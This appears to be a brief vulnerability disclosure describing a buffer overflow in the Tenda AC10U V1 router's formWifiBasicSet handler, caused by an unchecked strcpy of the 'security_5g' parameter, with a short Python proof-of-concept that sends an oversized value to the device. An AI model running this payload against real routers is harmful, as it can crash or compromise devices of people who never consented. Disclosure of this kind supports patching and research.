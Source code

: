 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formWifiBasicSet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](16.png)

get value from security_5g 

![](17.png)

if we dont send all paremeters, get into else, call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/WifiBasicSet"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'security_5g': payload})
``` 
